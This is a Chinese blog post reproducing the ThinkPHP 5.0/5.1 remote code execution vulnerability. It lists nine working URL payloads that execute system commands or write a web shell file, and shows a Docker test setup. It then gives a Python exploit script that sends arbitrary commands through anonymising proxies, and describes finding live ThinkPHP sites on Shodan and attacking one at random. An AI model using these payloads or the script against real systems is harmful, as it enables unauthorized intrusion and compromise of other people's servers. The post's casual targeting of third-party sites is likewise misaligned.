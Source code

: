 ```yaml
---
title: Thinkphp5-getshell复现
tags: 渗透测试
---
```

ThinkPHP是一个快速、兼容而且简单的轻量级国产PHP开发框架
![图标](https://static.dingtalk.com/media/lALPDgQ9rM5RBxHNAfTNA4Q_900_500.png)

<!--more-->

## 一、漏洞详情
由于框架对控制器名没有进行足够的检测，会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

参考链接：https://blog.thinkphp.cn/869075
{:.info}

## 二、测试payload
其实我一直等一个大佬分析漏洞原理，但是没有看到圈子里有人发表相关文章，只好自己来告诉大家这个漏洞的消息。但是由于本人实在是技术小白，所以写不出来漏洞原理，只能发一波payload了
```
1、index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
2、index.php?s=index/\think\Request/input&filter=phpinfo&data=1
3、index.php?s=index/\think\Request/input&filter=system&data=id
4、index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
5、index.php?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
6、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
7、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
8、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
9、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
## 三、复现
- 有了payload，剩下的就是搭建复现环境了。这里给大家说一下我的习惯：直接用docker pull，有的表哥可能喜欢自己搭一遍，这样能够学到更多的东西，但是我为了图方便，一般都是直接用docker实现了
- 安装docker应该大家都会，如果有人不是很了解docker的话，我这里讲一个非常简单的方法：在centos7里先yum -y updat确保自己的最新的，然后重启，执行yum -y install docker*，这样很简单的就把docker装上了

然后：
```
docker pull docker.io/clarencep/tp5-dev
docker run -d --name thinkphp5 -p 8000:8000 docker.io/clarencep/tp5-dev
```

然后就可以访问http://ip:8000来看一下是否成功  

![测试环境](https://static.dingtalk.com/media/lALPDgQ9rM621HrNAhLNA14_862_530.png)

确认成功跑起来之后选一个payload来访问就可以了  

![测试payload](https://static.dingtalk.com/media/lALPDgQ9rM64DNrNAszNBMw_1228_716.png)  
## 四、愉快玩耍
- 有了payload，就可以写一个简单的脚本来玩了
```
#coding=utf-8
import requests,sys,random
proxy_list=[
    '223.203.0.14:8000',
    '183.166.129.53:8080',
    '103.205.26.84:41805',
    '61.135.155.82:443',
    '218.17.139.5:808'
]
def poc(site,command):
    url=site+'/index.php?s=Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]='+command
    headers={'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0'}
    proxies={
        'http':'http://'+random.choice(proxy_list),
        'https':'https://'+random.choice(proxy_list)
        }
    req=requests.get(url,headers=headers,proxies=proxies)
    print(req.text)
    print('-----------------------------------------')
try:
    site=sys.argv[1]
    command=sys.argv[2]
except:
    site=raw_input('Please input your site:')
    print('-----------------------------------------')
    while True:
        command=raw_input('Command:')
        poc(site,command)
poc(site,command)
```

我在脚本里写了几个随便在网上找的代理IP，大家也可以写自己的  

去shodan上看一眼：

![shodan](https://static.dingtalk.com/media/lALPDgQ9rM65YKfNA33NBX0_1405_893.png)  

哇，好多thinkphp5的网站，随便挑一个  

![上手](https://static.dingtalk.com/media/lALPDgQ9rM65oJbNAc7NAj8_575_462.png)  

我早上看的时候还好好地，现在已经被人传进去这么多马了，还有asp的，真的娘的是个人才